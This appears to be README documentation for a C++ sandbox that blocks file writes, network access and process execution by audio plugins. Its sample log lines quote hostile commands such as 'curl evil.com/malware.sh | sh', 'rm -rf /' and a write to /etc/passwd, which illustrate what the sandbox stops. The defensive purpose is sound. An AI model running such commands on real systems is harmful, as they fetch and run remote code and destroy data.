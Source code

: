 ### 1. Enable Sandbox for a Plugin in Your Code

```cpp
#include "PluginSandbox.hpp"

// Before loading a potentially malicious plugin
PluginSandbox::enableSandbox("UntrustedPlugin.vst3");

// Load the plugin...
// If the plugin tries malicious operations, you'll see:
// [SANDBOX] BLOCKED system() for plugin 'UntrustedPlugin.vst3': rm -rf /

// After unloading
PluginSandbox::disableSandbox();
```

### 2. Watch Console Output

When running with sandbox enabled, any blocked operations will show:

```
[SANDBOX] BLOCKED system() for plugin 'MaliciousPlugin.vst3': curl evil.com/malware.sh | sh
[SANDBOX] BLOCKED open() with write flags for plugin 'BadPlugin.vst3': /etc/passwd
[SANDBOX] BLOCKED socket() for plugin 'SpyPlugin.vst3'
[SANDBOX] BLOCKED unlink() for plugin 'DestructivePlugin.vst3': /important/file.txt
```

## 🛡️ What's Protected

### File System Operations (Write/Delete Only)
- ✅ `open()` with write flags - BLOCKED
- ✅ `fopen()` with write modes - BLOCKED
- ✅ `creat()` - file creation - BLOCKED
- ✅ `unlink()` - file deletion - BLOCKED
- ✅ `mkdir()` - directory creation - BLOCKED
- ✅ `rmdir()` - directory deletion - BLOCKED
- ⚠️ Read operations are ALLOWED (plugins need to read samples, presets, etc.)

### Network Operations (All Blocked)
- ✅ `socket()` - BLOCKED
- ✅ `connect()` - BLOCKED
- ✅ `bind()` - BLOCKED
- ✅ `listen()` - BLOCKED
- ✅ `accept()` - BLOCKED
- ✅ `sendto()`, `recvfrom()` - BLOCKED

### Process Execution (All Blocked)
- ✅ `system()` - shell commands - BLOCKED
- ✅ `execve()`, `execl()`, `execlp()` - program execution - BLOCKED
- ✅ `fork()`, `vfork()` - process creation - BLOCKED
